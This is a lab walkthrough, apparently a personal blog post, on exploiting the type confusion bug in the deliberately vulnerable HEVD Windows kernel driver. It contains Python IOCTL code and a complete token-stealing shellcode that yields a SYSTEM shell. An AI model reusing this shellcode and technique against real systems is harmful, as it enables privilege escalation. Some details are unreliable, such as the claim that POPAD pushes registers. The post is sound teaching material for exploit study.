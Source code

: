 ```yaml
---
layout: single
title: Windows 7 x86 Kernel Type Confusion
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Kernel level Type Confusion bug vulnerability.

----

**What are Type Confusion bugs?**

Type Confusion bugs fall into the memory corruption class family, Type Confusion bugs tend to be highly exploitable, and there a lot of in-the-wild instances of Type Confusions being exploited (commonly in Browsers like Chromes V8 Engine).

Type Confusion occurs when a program allocates resources like a pointer or variable using one type, but later on, the program tries to access the same resources using a type that is not compatible with the original setting. This is the Type *confusion*, where the types of not compatible and thus leads to a vulnerability.

So when an application doesn't verify the type of object it's processing and then processes it as some other object, an attacker can abuse this.

----

**Bugs in Kernel-mode**

Since this is dealing with a Kernel-mode driver (HEVD), we will need to utilize an IOCTL and the same `CreateFileA()` and `DeviceIoControl()` functions to establish and obtain communication to a kernel-mode driver.

----

**HEVD vulnerable code analysis**

```c++
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is properly setting 'Callback'
        // member of the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer
        // of 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
#else
        DbgPrint("[+] Triggering Type Confusion\n");

        //
        // Vulnerability Note: This is a vanilla Type Confusion vulnerability due to improper
        // use of the 'UNION' construct. The developer has not set the 'Callback' member of
        // the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer of
        // 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

(This code is taken from the TypeConfusion.c file from the HEVD source release.)

As far as good and secure practices go, the first example of a secure program functionality show, 

```c++
KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

It's secure since the code is properly setting the `Callback` function before passing it to `KernelTypeConfusionObject` which is stored in a variable.

```c++
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```
The vulnerable code is obvious since it's simply not properly setting the `Callback` before it is passing the pointer on to `KernelTypeConfusionObject` 

```c++
NTSTATUS
TypeConfusionObjectInitializer(
    _In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject
)
{
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    DbgPrint("[+] KernelTypeConfusionObject->Callback: 0x%p\n", KernelTypeConfusionObject->Callback);
    DbgPrint("[+] Calling Callback\n");

    KernelTypeConfusionObject->Callback();

    DbgPrint("[+] Kernel Type Confusion Object Initialized\n");

    return Status;
}
```

Within the `TypeConfusionObjectInitializer` function, there is the `PKERNEL_TYPE_CONFUSION_OBJECT` structure. This 
function will take an object and calls the function pointer which is in the object. 

The structure layout for `PKERNEL_TYPE_CONFUSION_OBJECT` structure is in TypeConfusion.h

```c++
typedef struct _USER_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;

#pragma warning(push)
#pragma warning(disable : 4201)
typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    union
    {
        ULONG_PTR ObjectType;
        FunctionPointer Callback;
    };
} KERNEL_TYPE_CONFUSION_OBJECT, *PKERNEL_TYPE_CONFUSION_OBJECT;
```
Essentially,

There are two structures, a user-mode object and a kernel-mode one. The user-mode one takes an `ObjectID` and a `ObjectType` as two members, but the kernel-mode structure is a UNION, and a UNION can only hold one member at a time, and since the kernel-mode one (UNION one) has two, the `ObjectType` and the `Callback`. This is where the confusion actually occurs. When the `TriggerTypeConfusion` function doesn't validate that the second member that is passed is the `ObjectType` or `Callback`

![union holds one](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/union-one.png)

You can probably already guess how the attack will play out.

----

**Driver communication & BSOD**

To set up an initial connection to the Device driver (in kernel land), we need an IOCTL. We can use IDA Pro for IOCTL discovery within the driver or check the HEVD source code.

```c++
#define HEVD_IOCTL_TYPE_CONFUSION                                IOCTL(0x808)
```

(from HackSysExtremeVulnerableDriver.h's IOCTL CTL_CODE macro definitions)

This IOCTL can be decoded with python to:

![macro calculation](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/macro.png)

After obtaining an IOCTL (0x222023) from the driver, we can utilize the CreateFileA() function to receive a handler to the drive. 

```python
device_handle = kernel32.CreateFileA("\\\\.\HackSysExtremeVulnerableDriver",
                                        0xC0000000,
                                        0,
                                        None,
                                        0x3,
                                        0,
                                        None)
```

After obtaining and opening a handler to the device, we can use the DeviceIoControl() function combined with our previously obtained IOCTL to send data to the driver.

```python
sending_payload = kernel32.DeviceIoControl(device_handle,
                            0x222023,
                            buffer_pointer,
                            buffer_size,
                            None, 0,
                            byref(c_ulong(), 0))
```

For exploitation puposes, all you need to do is pass a structure who's second member is the address of the function you want to call from kernel-land, in this case thats the pointer and address to our shellcode payload.

----

**Token stealing shellcode payload**

As a payload to obtain NT\Authority System privileges, we will be using the same token-stealing shellcode payload as seen in previous HEVD exploitation posts.

```python

token_stealing_shellcode = (
"\x60"                            # pushad
"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
"\x8b\x40\x50"                    # mov eax,[eax+0x50]
"\x89\xc1"                        # mov ecx,eax
"\xba\x04\x00\x00\x00"            # mov edx,0x4
"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
"\x75\xed"                        # jnz 0x1a
"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
"\x61"                            # popad
"\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
"\x5D"                            # pop ebp
"\xC2\x08\x00"                    # ret 8
# cleanup routine
"\x61"                            # popad
"\xc3"                            # ret
)

```

We can add a cleanup routine at the end of our shellcode payload to ensure it doesn't only last one time before the system goes BSOD. This is a POPAD followed by a RET, this will push all the register values to the stack and return to the normal program flow.

----

**Gaining full exploitation & EOP**

Now that we have the IOCTL, both functions to communicate with the driver, a pointer to out shellcode payload, and the proper cleanup function in our assembly shellcode payload, we can run the exploit against HEVD.sys

![EOP](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/typeconfusion_eop.png)

And you are presented with an NT AUTHORITY\SYSTEM spawned command prompt.

----

**Conclusion**

After finding an IOCTL and calculating it's values, we can communicate with a kernel-mode driver (HEVD.sys) and utilize a Type Confusion bug within a certain function in which we pass our IOCTL, buffer pointer, and buffer size to. Unlike the standard stack-based buffer overflow where you send the IOCTL, buffer ID, and the buffer size. Since we sent that pointer, we can take advantage of the Type Confusion bug. Giving us EOP (Escalation Of Privileges) and obtaining an NT AUTHORITY\SYSTEM shell on the system.

The full exploit code can be found [here](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_TypeConfusion.py)
